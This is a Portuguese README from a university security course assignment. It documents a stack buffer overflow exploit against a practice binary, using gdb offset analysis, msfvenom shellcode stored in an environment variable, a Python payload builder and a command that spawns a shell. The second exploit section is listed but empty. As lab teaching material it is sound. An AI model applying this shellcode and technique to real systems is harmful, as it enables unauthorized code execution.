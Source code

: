# buffer-overflow

My buffer overflow attack for the Computational Security in UFPR
***

## Sumário

- [Sumário](#sumário)
- [Facilitador](#facilitador)
- [Explorando o primeiro buffer overflow](#explorando-o-primeiro-buffer-overflow)
  - [Objetivo](#objetivo)
  - [Descobrindo o endereço do buffer](#descobrindo-o-endereço-do-buffer)
  - [Descobrindo o endereço do registrador de retorno](#descobrindo-o-endereço-do-registrador-de-retorno)
  - [Descobrindo a distancia entre o buffer e o registrador de retorno](#descobrindo-a-distancia-entre-o-buffer-e-o-registrador-de-retorno)
  - [Preparando o Shellcode](#preparando-o-shellcode)
- [Explorando o segundo buffer overflow](#explorando-o-segundo-buffer-overflow)
  - [Objetivo](#objetivo-1)
  - [Descobrindo o endereço do buffer](#descobrindo-o-endereço-do-buffer-1)
  - [Descobrindo o endereço do registrador de retorno](#descobrindo-o-endereço-do-registrador-de-retorno-1)
  - [Descobrindo a distancia entre o buffer e o registrador de retorno](#descobrindo-a-distancia-entre-o-buffer-e-o-registrador-de-retorno-1)
  - [Preenchendo o buffer](#preenchendo-o-buffer-1)

## Facilitador

Para facilitar o processo vamos desabilitar o ASLR (Address Space Layout Randomization).

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

***

## Explorando o primeiro buffer overflow

Antes de tudo, vamos analisar se o programa em questão é vunerável a buffer overflow.

Para isso, iremos executar o programa sem input valido e ver o que acontece.

```bash
echo "" | ./bogdb.elf

Digite a senha: 
[!] Errou...
```

Agora, iremos executar o programa com um input maior que o buffer.

```bash
python3 -c "print('A'*50)" | ./bogdb.elf

Digite a senha: 
[!] Errou...

*** Parabéns, você entrou no sistema! ***
Segmentation fault (core dumped)
```

Podemos ver que o programa é vunerável a buffer overflow.

### Objetivo

Para explorar o buffer overflow e abrir uma shell, iremos seguir os seguintes passos:

1. descobrir o endereço do do buffer
2. descobrir o endereço do registrador de retorno
3. descobrir a distancia entre o buffer e o registrador de retorno
4. preencher o buffer com um padding, sobrescrever o endereço de retorno por uma variável de ambiente
5. executar o programa

### Descobrindo o endereço do buffer

Iremos rodar o executável `bogdb.elf` utilizando o gdb.

Podemos analisar o assembly da função `main` utilizando o comando `disas main`

Veremos algo como:

```assembly
0x0000000000001165 <+0>: push   %rbp
0x0000000000001166 <+1>: mov    %rsp,%rbp
0x0000000000001169 <+4>: sub    $0x10,%rsp
0x000000000000116d <+8>: movl   $0x0,-0x4(%rbp)
0x0000000000001174 <+15>: lea    0xe8d(%rip),%rdi        # 0x2008
0x000000000000117b <+22>: mov    $0x0,%eax
0x0000000000001180 <+27>: call   0x1040 <printf@plt>
0x0000000000001185 <+32>: lea    -0xd(%rbp),%rax
0x0000000000001189 <+36>: mov    %rax,%rdi
0x000000000000118c <+39>: mov    $0x0,%eax
0x0000000000001191 <+44>: call   0x1060 <gets@plt>
0x0000000000001196 <+49>: lea    -0xd(%rbp),%rax
0x000000000000119a <+53>: lea    0xe79(%rip),%rsi        # 0x201a
0x00000000000011a1 <+60>: mov    %rax,%rdi
0x00000000000011a4 <+63>: call   0x1050 <strcmp@plt>
0x00000000000011a9 <+68>: test   %eax,%eax
0x00000000000011ab <+70>: je     0x11bb <main+86>
0x00000000000011ad <+72>: lea    0xe6f(%rip),%rdi        # 0x2023
0x00000000000011b4 <+79>: call   0x1030 <puts@plt>
0x00000000000011b9 <+84>: jmp    0x11ce <main+105>
0x00000000000011bb <+86>: lea    0xe6f(%rip),%rdi        # 0x2031
0x00000000000011c2 <+93>: call   0x1030 <puts@plt>
0x00000000000011c7 <+98>: movl   $0x1,-0x4(%rbp)
0x00000000000011ce <+105>: cmpl   $0x0,-0x4(%rbp)
0x00000000000011d2 <+109>: je     0x11e0 <main+123>
0x00000000000011d4 <+111>: lea    0xe6d(%rip),%rdi        # 0x2048
0x00000000000011db <+118>: call   0x1030 <puts@plt>
0x00000000000011e0 <+123>: mov    $0x0,%eax
0x00000000000011e5 <+128>: leave  
0x00000000000011e6 <+129>: ret    
```

Para conseguir mais informações sobre o programa, iremos adicionar um breakpoint logo antes da função `gets` e rodar o programa.

```gdb
(gdb) b *main+39
```

Para descobrirmos o endereço do buffer podemos fazer:

```gdb
(gdb) p &buff
$2 = (char (*)[9]) 0x7fffffffdc83
```

Assim o endereço do buffer é `0x7fffffffdc83`

### Descobrindo o endereço do registrador de retorno

De forma similar, podemos descobrir o endereço do registrador de retorno utilizando:

```gdb
(gdb) info frame
Stack level 0, frame at 0x7fffffffdca0:
 rip = 0x55555555518c in main (bufferoverflow1.c:10); saved rip = 0x7ffff7c29d90
 source language c.
 Arglist at 0x7fffffffdc90, args: 
 Locals at 0x7fffffffdc90, Previous frame's sp is 0x7fffffffdca0
 Saved registers:
  rbp at 0x7fffffffdc90, rip at 0x7fffffffdc98
```

Assim o endereço do registrador de retorno é `0x7fffffffdc98`

### Descobrindo a distancia entre o buffer e o registrador de retorno

Para descobrirmos a distancia entre o buffer e o registrador de retorno, basta subtrair os dois endereços:

```gdb
(gdb) p 0x7fffffffdc98 - 0x7fffffffdc83
$6 = 21
```

Isso significa que precisaremos de um padding de `21 bytes` para preencher o buffer e chegar no registrador de retorno.

### Preparando o shellcode

Para gerar o shellcode, iremos utilizar o msfvenom:

```bash
msfvenom -p linux/x64/exec -b '\x00' -f python
```

iremos inserir o shellcode na variável de ambiente `SHELLCODE`:

```bash
export SHELLCODE=$(python2 -c 'print "\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x96\x4c\xb7\xfa\xd0\x9f\x7c\xd5\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xde\xf4\x98\x98\xb9\xf1\x53\xa6\xfe\x4c\x2e\xaa\x84\xc0\x2e\x8b\xfc\x77\xef\xf5\xd5\x9f\x7c\xd5"')
```

Para descobrir o endereço da variável de ambiente,  vamos utilizar um programa em C que imprime o endereço de uma variável de ambiente.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```

Dessa forma, vamos descobrir que o endereço da variável de ambiente é `0x7FFFFFFFE234`.

***

Vamos gerar o input para o programa utilizando o seguinte comando:

```python
from struct import pack

buf = ""
buf += "A" * 21
buf += pack("<Q", 0x7FFFFFFFE234)
with open("payload.txt", "w") as f:
    f.write(buf)
```

Se executarmos o programa utilizando como input o arquivo `payload.txt`, dentro do gdb, podemos conferir que o valor do RIP foi substituido pelo endereço da variável de ambiente `SHELLCODE`.

```gdb
(gdb) info frame
Stack level 0, frame at 0x7fffffffdc80:
 rip = 0x5555555551a1 in main (bufferoverflow1.c:12); saved rip = 0x7fffffffe234
 source language c.
 Arglist at 0x7fffffffdc70, args: 
 Locals at 0x7fffffffdc70, Previous frame's sp is 0x7fffffffdc80
 Saved registers:
  rbp at 0x7fffffffdc70, rip at 0x7fffffffdc78
(gdb) x/x 0x7fffffffdc78
0x7fffffffdc78: 0xffffe234
```

### Executando o shellcode

Para executar o shellcode, vamos utilizar o seguinte comando:

```bash
(cat payload.txt; cat) | ./bogdb.elf
```

receberemos um shell com permissões do usuário que executou o programa.

## Explorando o segundo buffer overflow

## Autores

- Vinícius Fontoura de Abreu (GRR20206873)
- Guiusepe Oneda Dal Pai (GRR20210572)
